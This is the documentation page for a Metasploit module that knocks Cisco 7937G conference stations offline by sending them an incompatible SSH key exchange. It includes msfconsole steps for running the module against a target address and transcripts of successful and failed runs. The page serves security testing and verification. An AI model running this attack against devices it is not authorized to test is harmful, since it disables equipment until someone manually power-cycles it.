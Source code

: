 ## Vulnerable Application

  [Cisco 7937G](https://www.cisco.com/c/en/us/support/collaboration-endpoints/unified-ip-conference-station-7937g/model.html) Conference Station.
  This module has been tested successfully against firmware versions SCCP-1-4-5-5 and SCCP-1-4-5-7.

### Description

This module exploits a bug in how the conference station handles incoming SSH connections that provide an incompatible key exchange. By connecting with an incompatible key exchange, the device becomes nonresponsive until it is manually power cycled.

## Verification Steps

  1. Obtain a Cisco 7937G Conference Station.
  2. Enable SSH Access on the device.
  3. Start msfconsole
  4. Do: `use auxiliary/dos/cisco/cisco_7937G_DoS`
  5. Do: `set RHOST 192.168.1.10`
  6. Do: `run`
  7. The conference station should now be nonresponsive until it is power cycled

## Scenarios

### Cisco 7937G Running Firmware Version SCCP-1-4-5-7

#### Successful Scenario:
```
msf5 > use auxiliary/dos/cisco/cisco_7937G_DoS 
msf5 auxiliary(dos/cisco/cisco_7937G_DoS) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cisco_7937G_DoS) > run

[*] Starting server...
[*] 192.168.110.209 - Connected (version 2.0, client OpenSSH_4.3)
[-] 192.168.110.209 - Exception: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - Traceback (most recent call last):
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2083, in run
[-] 192.168.110.209 -     self._handler_table[ptype](self, m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2198, in _negotiate_keys
[-] 192.168.110.209 -     self._parse_kex_init(m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2354, in _parse_kex_init
[-] 192.168.110.209 -     raise SSHException(
[-] 192.168.110.209 - paramiko.ssh_exception.SSHException: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - 
[*] 192.168.110.209 - DoS non-reset attack completed!
[*] 192.168.110.209 - Errors are intended.
[*] 192.168.110.209 - Device must be power cycled to restore functionality.
[*] Auxiliary module execution completed
```

#### Unsuccessful Scenario:
```
msf5 > use auxiliary/dos/cisco/cisco_7937G_DoS 
msf5 auxiliary(dos/cisco/cisco_7937G_DoS) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cisco_7937G_DoS) > run

[*] Starting server...
[-] 192.168.110.209 - Device doesn't appear to be functioning (already DoS'd?) or SSH is not enabled.
[*] Auxiliary module execution completed
```

### Cisco 7937G Running Firmware Version SCCP-1-4-5-5

#### Successful Scenario:
```
msf5 > use auxiliary/dos/cisco/cisco_7937G_DoS 
msf5 auxiliary(dos/cisco/cisco_7937G_DoS) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cisco_7937G_DoS) > run

[*] Starting server...
[*] 192.168.110.209 - Connected (version 2.0, client OpenSSH_4.3)
[-] 192.168.110.209 - Exception: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - Traceback (most recent call last):
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2083, in run
[-] 192.168.110.209 -     self._handler_table[ptype](self, m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2198, in _negotiate_keys
[-] 192.168.110.209 -     self._parse_kex_init(m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2354, in _parse_kex_init
[-] 192.168.110.209 -     raise SSHException(
[-] 192.168.110.209 - paramiko.ssh_exception.SSHException: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - 
[*] 192.168.110.209 - DoS non-reset attack completed!
[*] 192.168.110.209 - Errors are intended.
[*] 192.168.110.209 - Device must be power cycled to restore functionality.
[*] Auxiliary module execution completed
```

#### Unsuccessful Scenario:
```
msf5 > use auxiliary/dos/cisco/cisco_7937G_DoS 
msf5 auxiliary(dos/cisco/cisco_7937G_DoS) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cisco_7937G_DoS) > run

[*] Starting server...
[-] 192.168.110.209 - Device doesn't appear to be functioning (already DoS'd?) or SSH is not enabled.
[*] Auxiliary module execution completed
```
